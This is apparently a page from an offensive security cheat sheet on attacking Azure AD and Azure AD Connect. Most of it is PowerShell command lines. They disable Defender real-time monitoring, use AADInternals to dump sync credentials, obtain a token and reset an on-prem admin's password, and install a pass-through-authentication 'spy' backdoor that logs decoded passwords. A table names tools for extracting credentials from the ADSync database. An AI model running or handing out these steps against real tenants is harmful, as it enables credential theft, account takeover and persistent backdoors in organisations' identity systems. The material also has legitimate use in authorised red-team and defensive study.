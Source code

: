 ### Convert GUID to SID

The user's AAD id is translated to SID by concatenating `"S-1–12–1-"` to the decimal representation of each section of the AAD Id.

```powershell
GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
```

For example, the representation of `6aa89ecb-1f8f-4d92–810d-b0dce30b6c82` is `S-1–12–1–1789435595–1301421967–3702525313–2188119011`

## Azure AD Connect 

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
* For **PTA**, we can install the agent
* For **Federation**, we can extract the certificate from ADFS server using DA

```powershell
PS > Set-MpPreference -DisableRealtimeMonitoring $true
PS > Copy-Item -ToSession $adcnct -Path C:\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents
PS > Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

# Get Token for SYNC account and reset on-prem admin password
PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```

1. Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2. Install a PTA Backdoor
    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```


### Azure AD Connect - Password extraction

Credentials in AD Sync : C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf

Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally
--- | --- | --- | --- | ---
ADSyncDecrypt | Yes | Yes | No | No
ADSyncGather | Yes | No | No | Yes
ADSyncQuery | No (network RPC calls only) | No | Yes | Yes
